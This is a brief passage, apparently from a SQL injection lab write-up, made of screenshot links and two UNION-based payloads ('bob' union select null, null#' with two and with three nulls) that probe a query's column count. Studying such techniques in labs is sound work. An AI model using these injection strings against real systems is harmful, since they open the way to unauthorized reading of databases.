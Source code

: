         ![sqli6](../assets/img/sqli/Screenshot%202024-07-29%20at%2013.45.06.png)

        `bob' union select null, null#`

        ![sqli7](../assets/img/sqli/Screenshot%202024-07-29%20at%2013.45.28.png)

        `bob' union select null, null, null#`
